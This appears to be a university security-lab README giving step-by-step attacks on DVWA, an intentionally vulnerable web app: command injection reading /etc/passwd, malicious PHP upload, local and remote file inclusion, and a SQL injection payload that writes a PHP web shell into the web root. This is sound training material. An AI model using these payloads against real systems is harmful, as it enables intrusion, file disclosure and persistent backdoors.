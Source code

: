 # Injections

## Prerequisites

- DVWA setup and accessible
- Login as `admin:password`
- From the side navbar, navigate to `DVWA Security` and set security level to `low`

## Command Injection

- From the website, navigate to `Command Injection`.
- In the IP address textfield, type `127.0.0.1 ; cat /etc/passwd`.
- Click the submit button.
- You should see the following

<img src="https://github.com/AndreaPallotta/CSEC_472_Group_2/blob/main/lab_3/screenshots/command_injection.PNG" alt="command_injection_screenshot" />

## Malicious File Upload

- From the website, navigate to `File Upload`.
- Click the `Browse` button.
- Select [file_upload.php](utils/file_upload.php).
- Click the upload button and way for the success message.
- Navigate to `{IP}/hackable/uploads/file_upload.php`.
- If the php script is successfully executed, you should something similar to the following:

<img src="https://github.com/AndreaPallotta/CSEC_472_Group_2/blob/main/lab_3/screenshots/file_upload.PNG" alt="file_upload_screenshot" />

## Local File Inclusion

- From the website, navigate to `File Inclusion`.
- Notice how the end of the URL contains the following parameter: `page=include.php`.
- Replace `include.php` with `../../../../../../proc/version`
- You should see the following:

<img src="https://github.com/AndreaPallotta/CSEC_472_Group_2/blob/main/lab_3/screenshots/local_file_inclusion.PNG" alt="local_file_inclusion_screenshot" />

## Remote File Inclusion

- From the website, navigate to `File Inclusion`.
- Notice how the end of the URL contains the following parameter: `page=include.php`.
- Replace `include.php` with `https://google.com`
- You should see the following:

<img src="https://github.com/AndreaPallotta/CSEC_472_Group_2/blob/main/lab_3/screenshots/remote_file_inclusion.PNG" alt="remote_file_inclusion_screenshot" />

## SQL Injection + backdoor

- POSSIBLE PAYLOAD: `' UNION SELECT "<? system($_REQUEST['cmd']); ?>",2,3,4 INTO OUTFILE "/var/www/html/temp/c.php"#`

I am getting the following error, but it might be caused by the way I set up the webapp:  `Acceess denied for user 'dvwa'@'localhost' (using password: YES)`
